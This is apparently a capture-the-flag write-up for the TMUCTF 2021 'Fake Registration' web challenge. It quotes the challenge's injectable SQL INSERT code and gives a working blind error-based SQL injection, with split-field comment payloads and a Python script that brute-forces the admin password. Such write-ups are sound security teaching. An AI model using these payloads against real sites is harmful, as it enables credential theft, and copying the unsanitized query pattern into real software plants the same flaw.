 # Fake Registration

## Problem

Do you think this is really the TMUCTF registration form?!

[Task file](files/fake-registration.zip)

## Solution

We are given source code of a website, at the initialization stage the flag is
set as `admin` password. Also, we can see an obvious SQL-injection:

```python  
...  
sql = f"INSERT INTO `users`(username, password) VALUES ('{username}',
'{password}')"  
...  
db.execute_sql(sql)  
```

Both `username` and `password` aren't sanitized - just user input as-is. There
are two factors that makes this a bit harder to exploit:

 - Both parameters must not be longer than 67 characters  
 - It is blind error-based injection

First one can be bypassed by commenting out values separator, like so:

```  
username=a',(first part of subquery here/*  
password=*/second part of subquery here))--  
```

So we get 134 characters, that is more than enough in this case.

Second one could be exploited using null constraint, which doesn't allow us to
have empty password upon insert. So, we can query password of `admin`
character by character, we get an error on a miss and successfull registration
upon success. This leads to one more nuance: we should generate unique
username as we are actually registering a user upon successfull character
guess. So, we can bruteforce the flag with script like this one:

```python  
import requests  
import string

task_url = "http://task-url"  
alphabet = string.printable;  
curflag = ""  
i = 1  
while True:  
   for alpha in alphabet:  
       username = "a'||random(),(select 1 from users where username='admin' and /*"  
       password = "*/ substr(password,"+str(i)+",1)='"+alpha+"'))--"

       r = requests.post(task_url, data={"username":username,"password":password})  
       response = str(r.content);

       if (response.find('successful') != -1):  
           curflag += alpha  
           print(curflag)  
           i = i + 1  
           break  
```

## TL;DR

- Blind error-based sql-injection  

Original writeup (https://github.com/EvilBunnyWrote/Write-
ups/blob/main/TMUCTF-2021/web/Fake-Registration.md).
